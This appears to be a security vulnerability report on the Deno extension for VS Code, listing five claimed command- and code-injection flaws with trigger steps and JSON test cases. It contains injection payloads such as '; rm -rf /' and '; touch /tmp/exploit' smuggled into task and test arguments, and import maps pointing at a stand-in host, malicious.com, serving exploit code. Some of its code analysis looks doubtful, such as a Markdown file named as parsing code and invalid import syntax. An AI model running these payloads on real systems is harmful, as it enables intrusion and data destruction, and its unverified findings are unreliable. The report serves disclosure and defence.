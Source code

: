 # Vulnerability List

## Vulnerability Name: Command Injection via Deno CLI Task Definitions
**Description**:
The extension executes Deno CLI tasks defined in configuration files like `deno.json`. Attackers can craft malicious task definitions with injected command arguments, leading to arbitrary command execution. The `buildDenoTask` function in `tasks.ts` constructs command-line arguments directly from the `args` field of user-provided task definitions without proper sanitization. An attacker can create a malicious task in their repository that executes arbitrary commands via shell metacharacters (e.g., `; rm -rf /`).

**Steps to Trigger**:
1. Create a malicious repository with a `deno.json` file containing a task with malicious `args`.
2. The victim opens the repository in VS Code, enabling the Deno extension.
3. The attacker triggers the task (e.g., via the Tasks sidebar or keyboard shortcut).

**Impact**:
Remote attackers can execute arbitrary code on the victim's machine with the same privileges as the VS Code process, leading to full system compromise.

**Rank**: Critical
**Currently Implemented Mitigations**: None. The code directly uses user-provided arguments without sanitization.
**Missing Mitigations**: Validate and escape arguments to prevent shell injection. Limit allowed command patterns.
**Preconditions**: Victim must have the Deno extension installed and execute the malicious task.
**Source Code Analysis**:
- `tasks.ts:buildDenoTask` constructs the command using `args` (line ~60).
- `args` are directly taken from user-configured tasks in `deno.json`.
- No validation/sanitization occurs for special shell characters.

**Security Test Case**:
1. Create a test repository with a `deno.json` task:
```json
{
  "tasks": {
    "malicious_task": {
      "command": "run",
      "args": ["--", "echo 'ATTACK' > /tmp/injected.txt && echo 'PAYLOAD'"]
    }
  }
}
```
2. Open the repository in VS Code and run the task via the extension's task runner.
3. Observe that the injected command executes and creates `/tmp/injected.txt`.

---

## Vulnerability Name: Code Injection via Malicious Import Maps
**Description**:
The extension supports import maps (`deno.json`/`import_map.json`) to redirect module imports. Attackers can configure malicious entries to load hostile code from remote URLs, which the Deno language server executes. The import map parsing in `ImportCompletions.md` and `commands.ts` does not validate or restrict remote origins, allowing attackers to inject malicious modules that execute arbitrary code.

**Steps to Trigger**:
1. Create a repository with an `import_map.json` redirecting a standard module to an attacker-controlled URL.
2. The victim opens the repository, enabling Deno. The language server loads modules via the import map, executing malicious code.

**Impact**:
Attackers can execute arbitrary Deno scripts, leading to RCE or data theft.

**Rank**: High
**Currently Implemented Mitigations**: None. The feature trusts user-supplied import maps by default.
**Missing Mitigations**: Validate import origins, block untrusted domains, or prompt users before enabling external imports.
**Preconditions**: Victim must parse a malicious import map.
**Source Code Analysis**:
- `constants.ts` includes `deno.import_map` settings.
- `commands.ts` handles `deno.importMap` without URL validation in `transformDenoConfiguration`.

**Security Test Case**:
1. Create an `import_map.json`:
```json
{
  "imports": {
    "std": "https://malicious.com/exploit.ts"
  }
}
```
2. Open the repo in VS Code and import a module like `import * from "std"`.
3. The malicious server returns code that writes to disk or exfiltrates data.

---

## Vulnerability Name: RCE via Malicious Deno Path Configuration
**Description**:
The `deno.path` setting allows users to specify a custom Deno executable path. Attackers can set this to a path controlled by them (e.g., `../../../../malicious/deno`), leading the extension to execute a malicious binary. The `getDenoCommandPath` in `util.ts` does not validate the path properly, allowing arbitrary executable execution.

**Steps to Trigger**:
1. Modify a repository's settings to set `deno.path` to a malicious path.
2. The victim opens the repo, and the extension runs the malicious binary.

**Impact**:
Arbitrary code execution with system privileges.

**Rank**: Critical
**Currently Implemented Mitigations**: None. Path is used directly.
**Missing Mitigations**: Validate paths to ensure they point to trusted Deno binaries.
**Preconditions**: Victim must load settings from the malicious repository.
**Source Code Analysis**:
- `util.ts:getDenoCommandPath` reads `deno.path` without validation (line ~45).

**Security Test Case**:
1. Set `deno.path` to a malicious script in the repository.
2. The script could be a shell script that writes to `/tmp/exploit`.
3. Trigger a Deno command via the extension (e.g., "Deno: Cache").

---

## Vulnerability Name: RCE via Test Command Arguments
**Description**:
The `test` command in `commands.ts` constructs Deno CLI commands using user-provided `testArgs` (like `--unstable` flags). Malicious configurations could inject commands via `testArgs` to execute arbitrary code.

**Steps to Trigger**:
1. Modify `deno.json` to set testArgs with shell metacharacters.
2. Run tests via the extension, executing injected commands.

**Impact**:
Arbitrary command execution.

**Rank**: High
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Sanitize arguments.

**Security Test Case**:
1. Set `testArgs` in `deno.json`:
```json
{ "testArgs": ["; touch /tmp/exploit"] }
```
2. Run tests and observe file creation.

---

## Vulnerability Name: Code Injection via Unvalidated Deno Configuration
**Description**:
The extension loads `deno.json` configurations without validating user-supplied settings, allowing malicious configurations to load untrusted modules or execute code via Deno's unstable features.

**Steps to Trigger**:
1. Include malicious `deno.json` enabling unstable features to run hostile code.

**Impact**:
Arbitrary code execution via Deno scripting.

**Rank**: High
**Currently Implemented Mitigations**: None. The feature trusts user-supplied configurations by default.
**Missing Mitigations**: Validate configuration fields to block untrusted module imports or unsafe flags.
**Preconditions**: Victim must load the malicious configuration.
**Source Code Analysis**:
- `commands.ts` processes `deno.json` without validating or restricting configuration fields.

**Security Test Case**:
1. Create a `deno.json` with:
```json
{
  "unstable": true,
  "importMap": "https://malicious.com/malicious_import_map.json"
}
```
2. The malicious import map loads hostile code (e.g., `import { exploit } from "https://malicious.com/exploit.ts"`).
3. Execute a Deno command (e.g., "Deno: Run") that triggers the malicious module.

---

**Summary**:
The Deno extension’s failure to validate user-provided configurations, paths, and task definitions introduces critical RCE and Code Injection vulnerabilities. Proper input sanitization and configuration validation are urgently needed to mitigate these risks.
